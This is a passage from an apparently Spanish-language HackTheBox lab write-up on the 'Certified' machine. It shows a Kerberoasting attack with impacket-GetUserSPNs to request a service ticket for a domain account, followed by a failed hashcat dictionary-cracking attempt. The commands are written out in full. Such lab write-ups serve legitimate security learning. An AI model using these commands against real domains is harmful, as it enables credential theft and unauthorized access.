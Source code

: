 <figure><img src="../../.gitbook/assets/2475_vmware_rlqWDams18.png" alt=""><figcaption></figcaption></figure>

## Kerberoasting Attack (GetUserSPNs)

Ya que disponemos de credenciales de un usuario del dominio válidas, probaremos de realizar un **Kerberoasting Attack** para intentar obtener un Ticket Granting Service (TGS), comprobamos que obtenemos un TGS del usuario "management\_svc".

{% code overflow="wrap" %}
```bash
impacket-GetUserSPNs -dc-ip 10.10.11.41 certified.htb/judith.mader -request 2>/dev/null
```
{% endcode %}

<figure><img src="../../.gitbook/assets/2476_vmware_LGzs3DrMfs.png" alt=""><figcaption></figcaption></figure>

## Cracking hashes \[FAILED]

Procederemos a intentar crackear el hash obtenido del TGS para obtener la contraseña del usuario en cuestión. En este caso, comprobamos que no hemos sido capaces de crackear el hash, lo cual indica que la contraseña no se encuentra en el diccionario utilizado "rockyou.txt".

```bash
hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```
